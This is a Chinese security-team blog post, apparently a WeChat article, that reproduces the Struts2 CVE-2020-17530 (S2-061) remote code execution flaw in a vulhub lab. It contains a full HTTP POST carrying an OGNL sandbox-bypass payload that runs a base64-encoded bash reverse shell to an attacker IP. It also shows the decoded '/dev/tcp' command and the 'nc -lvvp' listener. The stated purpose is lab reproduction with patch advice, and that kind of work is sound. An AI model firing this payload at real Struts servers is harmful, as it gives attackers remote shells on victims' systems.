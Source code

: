 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/bqaiVyaQTwX16wW9Qmy08g)

  

  

**上方蓝色字体关注我们，一起学安全！**

**作者：****hatjwe****@Timeline Sec  
**

**本文字数：1042**

**阅读时长：3~4min**

**声明：请勿用作违法用途，否则后果自负**

**0x01 简介**  

  

Struts2 是一个基于 MVC 设计模式的 Web 应用框架，它本质上相当于一个 servlet，在 MVC 设计模式中，Struts2 作为控制器 (Controller) 来建立模型与视图的数据交互。
--------------------------------------------------------------------------------------------------------

**0x02 漏洞概述**  

  

**漏洞编号 CVE-2020-17530**  

--------------------------

CVE-2020-17530 是对 CVE-2019-0230 的绕过，Struts2 官方对 CVE-2019-0230 的修复方式是加强 OGNL 表达式沙盒，而 CVE-2020-17530 绕过了该沙盒。  

在特定的环境下，远程攻击者通过构造恶意的 OGNL 表达式，可造成任意代码执行。

**0x03 影响版本**  

Struts 2.0.0 – Struts 2.5.25

**0x04 环境搭建**  

为  

这里用的 vulhub 环境一键搭建  

执行如下命令启动一个 Struts2 2.5.25 版本环境

```
https://github.com/vulhub/vulhub/blob/master/struts2/s2-061/
```

1、启动 Struts 2.5.25 环境:

```
docker-compose up -d
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgSHj5ILuBh8UmibLdy5nQeCM3kFaan60Nb4ytwGkYviccpxmgf7sBnviaVnBr9Z2D4bEibZNF18YlIxA/640?wx_fmt=png)

2、环境启动后，访问**查看首页**

```
http://target-ip:8080/index.action
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgSHj5ILuBh8UmibLdy5nQeCncX73ib56MYt274G1swCjJvUe7l4fybibYkwSt2ltMlKibCcpQIw0GVIQ/640?wx_fmt=png)

**0x05 漏洞复现**  

1、发送如下数据包，即可执行反弹 shell 命令：  

```
POST /index.action HTTP/1.1 
Host:192.168.20.129:8080 
Accept-Encoding: gzip, deflate 
Accept: */* 
Accept-Language:en 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36 
Connection: close
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF 
Content-Length: 922  
------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data;  

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("bash-c{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwLjEyOC82NjY2IDA+JjE=}|{base64,-d}|{bash,-i}")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgSHj5ILuBh8UmibLdy5nQeCylP1TsycrljIFjgSWymiaEJa8oB6n1bntADw1Z1j3mibePqjfIaxUXFw/640?wx_fmt=png)

2、这里为反弹 shell 命令：

```
(#arglist.add("bash -c{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwLjEyOC82NjY2IDA+JjE=}|{base64,-d}|{bash,-i}")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute"))
```

进行 linux 反弹 shell 命令：  

```
bash -i >& /dev/tcp/192.168.20.128/66660>&1（PS：反弹shell涉及到管道符问题于是要将命令进行base64编码）
```

  

base64 在线编码：  

http://www.jackson-t.ca/runtime-exec-payloads.html  

3、在攻击机监听本地端口：  

```
nc -lvvp 6666
```

运行脚本成功反弹回 shell

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsgSHj5ILuBh8UmibLdy5nQeCW3HrZNlczY6yicEd7hVfbFFXz8FOA7rUib0xGC8dTEogo5giaqkDN4Oew/640?wx_fmt=png)  

**0x06 修复建议**  

Struts 官方已经发布了新版本修复了上述漏洞，请受影响的用户尽快升级进行防护。

```
参考链接：
```

https://github.com/vulhub/vulhub/blob/master/struts2/s2-061/README.zh-cn.md  

  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaASAShFz46a4AgLIIYWJQKpGAnMJxQ4dugNhW5W8ia0SwhReTlse0vygkJ209LibhNVd93fGib77pNQ/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/VfLUYJEMVshAoU3O2dkDTzN0sqCMBceq8o0lxjLtkWHanicxqtoZPFuchn87MgA603GrkicrIhB2IKxjmQicb6KTQ/640?wx_fmt=jpeg)

**阅读原文看更多复现文章  
**

Timeline Sec 团队  

安全路上，与你并肩前行